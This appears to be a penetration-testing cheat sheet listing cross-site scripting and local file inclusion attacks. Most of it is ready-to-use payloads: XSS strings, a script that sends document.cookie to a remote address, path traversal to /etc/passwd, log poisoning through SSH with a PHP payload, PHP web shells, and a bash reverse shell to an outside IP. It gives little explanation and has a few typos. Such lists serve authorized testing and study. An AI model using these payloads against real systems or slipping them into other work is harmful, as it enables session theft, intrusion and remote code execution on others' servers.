 ------------------------------------------------------------------cross site scripting-----------------------------------------------------------------------
-	<ScRipT>alert("XSS");</ScRipT>
-	<scr<script>ipt>alert(1)</script>
-	<svg/onload=alert(1)>
-	<a href=javascript:confirm()>click here
-	<img src=`xx:xx`onerror=alert(1)>
-	<img src=//x55.is OnError=import(src)>
-	</script><script >alert(document.cookie)</script>
-	<script>new  Image().src="http://10.0.2.10:4444/bogus.php?output="+escape(document.cookie);</script>

To automate the process, use the following tools
-	xsstrike
-	xsshunter
-	BeEF
-	JShell


-----------------------------------------------------------------Loca File Inclusion-------------------------------------------------------------------------
-	../../../../../../etc/passwd%00.jpg  --> Null Byte will ignore the extension
-	php://filter/convert.base64-encode/resource=
- /roc/self/environ || /var/log/auth.log [ssh log file] || /var/log/apache2/access.log [web server log file]  --> You can poison any of these log files to get a reverse shell
- Ssh “<?php passthru(base64_decode(‘base64PAYLOAD==’))?>”@10.0.2.13 --> poison the auth.log file
- ./ngrok http 9000  && python -m SimpleHTTPServer --> these two are required in order to execute a php file from an external server
-     <?php system("ls /"); ?>
-     <?php system($_GET['cmd']); ?>
- example.com/index.php?view=cat../../../../../../../../../var/log/apache2/access.log
- bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
- ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -fs 15349 --> searching for LFI
- decode (base64) the PHPSESSID --> you will find a path for /var/www/html/index.php --> you can change the path inside the cookie, encode it again then send it 
- Linux --> /etc/hosts
     - example.com/index.php?id=1
- windows --> IIS 
     - example.com/index.aspx?id=1

